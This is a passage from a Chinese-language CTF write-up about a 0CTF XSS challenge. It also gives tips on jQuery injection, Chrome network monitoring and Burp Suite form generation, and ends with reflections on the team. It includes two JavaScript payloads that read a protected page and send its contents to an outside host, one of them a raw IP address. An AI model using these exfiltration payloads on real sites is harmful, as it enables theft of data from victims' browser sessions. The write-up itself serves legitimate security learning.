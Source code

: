 ```html
  </body>
</html>
```

伪协议解码

```Js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://router.vip/flag.php', false);
xhr.send();
if (xhr.status == 200) {
  location='https://12345609861router.vip/1234/?result='+xhr.responseText;
}
```



然后就能得到flag： `flag{th1s_is_fr0m_a_re4l_cas3}`

[WP](https://ctftime.org/writeup/5956)





### 其他的收获

1. 如果发现jquery用不了，写原生的js又太蛋疼，可以加载一个jquery进来，继续干。当然，前提那个页面是你可控的。

   ```html
   <script src="https://cdn.bootcss.com/jquery/2.2.4/jquery.min.js"></script>
   <script type="text/javascript">
   $.get("https://router.vip/flag.php",function(data){
   //alert(data);
   	location.href="http://119.29.135.206:23333/"+escape(data);
   });
   </script>
   ```

   ​

2. 在调试网络请求的时候，发现一款chrome有一个更细微的网络监控

   https://segmentfault.com/q/1010000000364871

   ![net-internals](https://mo-xiaoxi.github.io/img/post/0ctf/net-internals.png)

3. 这里学到了一个burp suite的小技巧

   原来burpsuite可以用来生成表单

   ![burp](https://mo-xiaoxi.github.io/img/post/0ctf/burp.png)

   ![0ctfoscf](https://mo-xiaoxi.github.io/img/post/0ctf/0ctfoscf.png)

   生成ajax格式的（简直是我这种弱渣js选手的救星）

   ![ajaxburp](https://mo-xiaoxi.github.io/img/post/0ctf/ajaxburp.png)

4. 赛后务必学习WP，务必复现WP，务必总结文档！！收获很多。



### 废话

这次0ctf，第一次正式以blue-lotus参赛，队友们都很拼。第二晚，我们Web组一起怼simpleXSS弄到了将近4点，老司机大佬们3点半的时候，还在继续怼各种二进制，韦博看那个OTP整整看了两天，晚上睡觉还一直记着那道题..实在话，比赛或许最重要的不是最后的成绩，而是有一群队友肯陪你疯～

回顾整场比赛，真是深深觉得自己的js功底太差了，得好好补补。越学越觉得自己懂得东西真的太少太少，还需要学习很多很多套路orz。

